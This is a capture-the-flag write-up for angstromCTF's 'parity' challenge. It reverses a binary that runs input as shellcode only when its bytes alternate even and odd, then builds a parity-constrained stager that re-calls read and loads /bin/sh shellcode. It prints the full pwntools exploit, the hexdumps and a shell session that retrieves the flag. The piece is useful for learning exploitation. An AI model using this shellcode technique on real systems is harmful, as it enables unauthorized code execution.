

Let's analyze this binary file:
```
$ checksec parity
[*] '/home/tomasgl/ctf/angstorm/parity/parity'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-14h]
  void *buf; // [rsp+10h] [rbp-10h]
  __gid_t rgid; // [rsp+18h] [rbp-8h]
  int i; // [rsp+1Ch] [rbp-4h]

  setbuf(_bss_start, 0LL);
  rgid = getegid();
  setresgid(rgid, rgid, rgid);
  printf("> ");
  buf = mmap(0LL, 0x2000uLL, 7, 34, 0, 0LL);
  v4 = read(0, buf, 0x2000uLL);
  for ( i = 0; i < v4; ++i )
  {
    if ( (*((_BYTE *)buf + i) & 1) != i % 2 )
    {
      puts("bad shellcode!");
      return 1;
    }
  }
  ((void (__fastcall *)(_QWORD))buf)(0LL);
  return 0;
}
```

After reverse engineering of the executable file, it becomes clear that you need to build a shellcode in which the first byte will be even, the second odd, the third even, etc.
But it is impossible to create a shellcode (for this architecture) that will meet the criteria, because in this case it will contain a `syscall` that has only odd bytes:
```python
In [1]: from pwn import *

In [2]: check = lambda code: list(map(lambda s: s&1, code))

In [3]: check(asm('syscall'))
Out[3]: [1, 1]
```
So we need to go the other way. Let's create a shellcode that will run the `read` function from the `plt` table (0x4010f4) again and execute your code without restrictions.
The set of assembly instructions is strictly limited.
```asm
// 0 1 0 1
xor rax, 0x40-1
// 0 1 0
inc rax
// 1
cdq
// 0 1 0 1
shl rax, 7
// 0 1 0
shl rax, 1
// 1
cdq
// 0 1 0 1
xor rax, 9
// 0 1 0 1
add rax, 7

// 0 1 0 1
shl rax, 7
// 0 1 0
shl rax, 1

// 1
cdq
// 0 1 0 1
xor rax, 0x7f
add rax, 0x75
xor rdx, 0x71
// 0
nop
// 1 0
call rax
```
I used the `nop` and `cdq` instructions to observe the parity sequence.
As a result, the necessary parameters will be passed to the `read` function, and it will write our data to the same section of the code. Next, you need to send the shellcode itself with the call `/bin/sh`.
Final exploit:
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ template template --host challs.actf.co --port 31226 parity
from pwn import *
from time import sleep

# Set up pwntools for the correct architecture
elf = context.binary = ELF('parity')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'challs.actf.co'
port = int(args.PORT or 31226)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([elf.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *main+255
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

shellcode = asm('''
// 0 1 0 1
xor rax, 0x40-1
// 0 1 0
inc rax
// 1
cdq
// 0 1 0 1
shl rax, 7
// 0 1 0
shl rax, 1
// 1
cdq
// 0 1 0 1
xor rax, 9
// 0 1 0 1
add rax, 7

// 0 1 0 1
shl rax, 7
// 0 1 0
shl rax, 1

// 1
cdq
// 0 1 0 1
xor rax, 0x7f
add rax, 0x75
xor rdx, 0x71
// 0
nop
// 1 0
call rax
''')

print(hexdump(shellcode))
io.send(shellcode)
sleep(5)
payload = fit({
     len(shellcode): asm(shellcraft.sh())
    })
print(hexdump(payload))
io.send(payload)
io.interactive()
```

```
$ python exploit.py 
[*] '/home/tomasgl/ctf/angstorm/parity/parity'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challs.actf.co on port 31226: Done
00000000  48 83 f0 3f  48 ff c0 99  48 c1 e0 07  48 d1 e0 99  │H··?│H···│H···│H···│
00000010  48 83 f0 09  48 83 c0 07  48 c1 e0 07  48 d1 e0 99  │H···│H···│H···│H···│
00000020  48 83 f0 7f  48 83 c0 75  48 83 f2 71  90 ff d0     │H···│H··u│H··q│···│
0000002f
00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 6a  │iaaa│jaaa│kaaa│laaj│
00000030  68 48 b8 2f  62 69 6e 2f  2f 2f 73 50  48 89 e7 68  │hH·/│bin/│//sP│H··h│
00000040  72 69 01 01  81 34 24 01  01 01 01 31  f6 56 6a 08  │ri··│·4$·│···1│·Vj·│
00000050  5e 48 01 e6  56 48 89 e6  31 d2 6a 3b  58 0f 05     │^H··│VH··│1·j;│X··│
0000005f
[*] Switching to interactive mode
> $ id
uid=1000 gid=1000 groups=1000
$ ls
flag.txt
run
$ cat flag.txt
actf{f3els_like_wa1king_down_4_landsl1de_6d28d72fd7db}
$
```